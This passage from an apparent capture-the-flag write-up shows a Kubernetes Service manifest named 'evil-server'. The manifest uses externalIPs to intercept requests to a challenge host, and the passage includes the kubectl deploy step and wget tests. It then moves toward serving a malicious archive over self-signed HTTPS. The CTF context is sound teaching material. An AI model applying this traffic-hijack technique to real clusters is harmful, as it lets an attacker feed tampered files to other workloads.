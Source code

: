 ```
kind: Service
metadata:
  name: evil-server
  namespace: ctf
spec:
  externalIPs:
    - 147.28.207.143
    - 147.75.204.231
    - 147.28.207.163
  ports:
    - port: 80
      targetPort: 8080
  selector:
    app: evil
EOF
```

We deploy it:
```
# Deploy the pod
# === command ===
ctf:~$ kubectl apply -f evilpod.yaml --force
# === output ===
pod/evil-pod configured
service/evil-server configured
```
Then, for testing purposes, see what this returns to our request:
```
# === commands ===
$ctf: sudo apt update
$ctf: sudo apt install wget
$ctf: wget -qO- http://static.cscg.live
# === output ===
"Hello"
```

So this works. Of course, the issue is that we are not actually working with HTTP, instead, the request is made with HTTPS.

Let's self-sign a certificate with Nginx, and this time make our service actually serve a .tar.gz file 
(The code for this is in the *Full Solve Script (flag)* section to avoid a huge duplicate).

After running wget from the service account, we now get:
```
# === command ===
ctf:~$ wget http://static.cscg.live/
# === Output ===
...
ERROR: ...
Self-signed certificate encountered
...
```
